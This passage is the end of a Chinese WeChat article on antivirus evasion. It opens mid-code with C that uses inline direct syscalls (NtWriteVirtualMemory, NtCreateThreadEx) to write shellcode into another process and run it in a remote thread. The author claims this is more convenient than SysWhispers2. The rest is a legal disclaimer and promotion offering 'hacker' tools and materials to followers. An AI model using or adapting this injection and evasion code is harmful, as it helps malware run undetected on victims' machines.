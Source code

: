       INLINE_SYSCALL(NtWriteVirtualMemory)(hProcess, baseAddress, &shellcode, sizeof(shellcode), NULL);    HANDLE hThread;  INLINE_SYSCALL(NtCreateThreadEx)(&hThread, GENERIC_EXECUTE, NULL, hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);  INLINE_SYSCALL(NtClose)(hProcess);  INLINE_SYSCALL(NtClose)(hThread);  return 0;}

这种使用比SysWhispers2更为方便，效果更好。

## 总结

免杀是多种规避的技术总和！

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135702.png)

END

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135702.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135703.png)

  

 **看完记得点赞，关注哟，爱您！**

  
 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

  
关注此公众号，回复"Gamma"关键字免费领取一套网络安全视频以及相关书籍，公众号内还有收集的常用工具！  
**在看你就赞赞我！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135704.png)![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135705.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135706.png)
扫码关注我们![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135706.png)

  

扫码领hacker资料，常用工具，以及各种福利

  

![]()

转载是一种动力 分享是一种美德

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

